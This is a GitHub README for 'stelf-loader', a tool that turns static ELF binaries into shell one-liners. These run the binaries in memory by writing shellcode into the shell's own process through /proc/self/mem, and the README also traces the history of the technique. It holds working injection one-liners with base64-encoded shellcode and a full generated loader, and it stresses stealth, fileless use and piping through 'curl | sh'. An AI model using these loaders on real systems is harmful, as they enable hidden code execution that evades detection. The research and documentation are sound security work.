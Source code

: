 # stelf-loader
A stealthy ELF loader - no files, no execve, no RWX

See also: [arget13/DDexec](https://github.com/arget13/DDexec), which is a similar idea to this but probably more flexible - I wrote most of `stelf-loader` before I realised that `DDexec` existed (oops!)

Here's a simple "hello world" ELF (`test_elfs/syscall-static-pie.c`), packed using stelf-loader:

```sh
$ python3 elf_to_stelf.py test_elfs/syscall-static-pie - -r
#!/bin/sh

read a </proc/self/syscall
exec 3>/proc/self/mem 4<<EOF 5>/dev/null
A
EOF
cat /dev/fd/4 >&5
tail -c+$(($(echo $a|cut -d\  -f9)+1)) <&3 2>&5
base64 -d<<EOF|gunzip >/dev/fd/4 &
H4sIAMd7+mMC/+3ZP0vDQBjH8SdtEkqX9B30dG6pHQQH/y1KBhdfQkkjBgKKCYiTr6DQd+Bb6Fg6
qODgu3Bz0L2z5pqeXASLi6jw/Qx5eH7ccwe3HenfT5rhaGceiNxKS2TmiEjg9cv4qW1iz44feyYW
O57smbi+iF9uivExAAAAAAD4bdcHR4c1Rz/6S3XZlUXXKvv9ZR6qjyVFtiV+8XWL1XqtK18bO9Vq
9tWtZ/Wf67pUqz3n2vspWc2a8+31G9XalWo1czUzZ47rrT6usazHz/nQl+9rCAAAAAAAP2eqH8Z3
+jPr6Gf+aPO1rf/dT7eLrv8WeA/cEQAAAAAAAAAAAAAAf10Yp+lZR2X5IE+i7nkSqzg9UZdJfqqG
yUUc5Sq7yqJBmmZrTW4LAAAAAID/6R2QbjDaAFAAAA==
EOF
base64 -d<<EOF >&3
McCwCTH/vgBQAAAx0rIDTTHSQbIiTTHASffQTTHJDwVJicdJifZIifJIicYx/0C3BDHADwVIhcB4
90gBxkgpwnXvMcCwCkyJ/0yJ9jHSsgUPBUH/5w==
EOF
```

You could put this in a file and execute it, but that would slightly defeat the
purpose (of being file-less). The intended usage scenario is to paste it directly into a terminal,
or perhaps even `curl | sh` or `nc | sh`. The aim is to be as portable as possible between different shell implementations. So far I've tested it against `bash`, `zsh`, `dash`, and `busybox ash`.

This implementation currently relies on some hand-written x86-64 shellcode, but the
general approach should be applicable cross-architecture.

It works on both `static` and `static-pie` ELFs. However, dynamic ELFs are out of scope for this project.

`static-pie` ELFs are recommended, to ensure that the address space does not collide with that of the loader process.

## Shell-based self-injecting shellcode loader

This technique has a slightly complicated history, with some "multiple discovery" going on - multiple people working independently had similar ideas, with improvements over time. I will try to present the concepts in chronological order, with attribution where possible.

Before ASLR/PIE was widely implemented, somebod{y,ies} realised that the `dd` binary could be used to inject code into its own address space, by writing to `/proc/self/mem`, making use of the `seek` argument to seek to the correct offset within the `mem` file to point into some executable code, which would subsequently be executed.

An example of this can be seen in brainsmoke's [tweet](https://twitter.com/brainsmoke/status/399558997994668033) here:

```sh
base64 -d<<<aExPTApUXmoEagFqAl9YWg8F|dd seek=1 bs=$((`objdump -d /*/dd|grep ll.*\<w|sed 's/\([0-9a-f]\+\):.*/0x\1+5/'`)) of=/proc/self/mem
```

### Parallel idea 1:

To account for PIE, `brainsmoke` came up with the idea of injecting into the shell process, as opposed to `dd` itself. Since the shell process stays running for the duration, we can dynamically "leak" pointers from various `/proc/<pid>/*` entries, and use that to know where to inject the code, thus "bypassing" ASLR. `dd` does not have permission to open the parent shell's `mem` file, and so clever fd redirection was used to get the shell itself to open the fd, to be passed into `dd`.

Example ([source](https://twitter.com/brainsmoke/status/1258875830014480386))

```sh
cd /proc/$$;exec 3>mem;(base64 -d<<<MdtoL2JpbkiJ54FvBNGMl/9qLcZH+WNIieBTSIni6w5QSI1ADVBIieaNQzsPBejt////L2Jpbi9iYXNoAADrwA==;yes $'\xeb\xfc'|tr -d '\n')|dd bs=1 seek=$((0x$(grep vdso -m1 maps|cut -f1 -d-)))>&3
```

### Parallel idea 2:

Independently, `arget13` had the idea of using `dd` to do something similar to the base technique which he called [DDexec](https://github.com/arget13/DDexec). However, not realising that `mem` allows writing to read-only pages, he came up with a wonderfully complex mechanism for injecting a ROP payload, all implemented through shell scripting.

### Parallel idea 3:

I was vaguely aware of `brainsmoke`'s technique, having seen it mentioned on IRC several years prior. However, I couldn't remember how it worked exactly, and so I tried to reinvent it myself. I came up with [this](https://twitter.com/David3141593/status/1386438123647868930)

```sh
dd of=/proc/$$/mem bs=1 seek=$(($(cut -d" " -f9</proc/$$/syscall))) if=<(base64 -d<<<utz+IUO+aRkSKL+t3uH+McCwqQ8F) conv=notrunc
```

Rather than parsing objdump output to find a good place to inject, I read from `/proc/<pid>/syscall` and parsed out the value of the program counter register - which is inevitably pointing into some executable code.

As-is, this technique was suboptimal, since it requires `dd` to be allowed to open the `mem` file of the parent process (which only happens if `dd` is run as root, or Yama is disabled).

### Merging of the streams

After I posted about my variant of the technique, brainsmoke pointed out his fd redirection trick, which I was able to incorporate back into my technique, giving the "best of both worlds" - no need for parsing `objdump` output, and no need for root or disabled Yama.

`arget13` saw the conversation, and incorporated the `syscall` technique into his `DDexec` tool. He also ditched his complex ROP generation code in favour of directly overwriting executable code.

I wasn't aware of `DDexec` at the time, and I started writing my own tool along the same lines, which I called `stelf-loader` (this tool!) - but at this point in time I hadn't published it.

After writing most of `stelf-loader`, I found `DDexec` and facepalmed - it was basically everything I set out to do with `stelf-loader`, and more. However, `stelf-loader` still does something that `DDexec` doesn't - `stelf-loader` is written in Python as opposed to shell scripting, and instead *generates* shell scripts (or one-liners) as output. The generated shell scripts are potentially very compact and can be pasted directly into a terminal session, whereas `DDexec` requires the (relatively) large ddexec shell script to be dropped onto the system first (you could work around this, but it would still take up more space).

Around 12/12/2022, `arget13` discovered that several other common utilities other than `dd` could be used to seek the file descriptor, one of those alternatives being `tail`. `tail` is of course more commonly installed and executed than `dd`, making the overall technique more portable and less eyebrow-raising.

After noticing this change to `DDexec`, I updated `stelf-loader` to also use `tail` for seeking.

In its current form, `stelf-loader` combines:

- "The" `/proc/<pid>/mem` shellcode injection.
- brainsmoke's fd redirection technique.
- My own `/proc/<pid>/syscall` program counter "leak" technique.
- arget13's `tail`-seeking technique (as a sneakier alternative to `dd`)

## `elf_to_shellcode.py`

This is usable as a standalone script. It flattens a static
ELF into a piece of shellcode. This is very similar to what [gamozolabs/elfloader](https://github.com/gamozolabs/elfloader) does,
except it also generates a shellcode stub that sets up the correct page permissions. (If I was rewriting this project today, I'd use `elfloader` to do the ELF parsing, but writing my own was an interesting educational exercise.)
This avoids needing RWX mappings.

## `elf_to_stelf.py`

This script ties together all the aforementioned tricks. It takes a static-pie ELF as input, and outputs a (potentially extremely long) sequence of shell commands.

## TODO

- argv passthru
- mmap and pivot to a fresh stack
- add more options to `elf_to_shellcode.py`

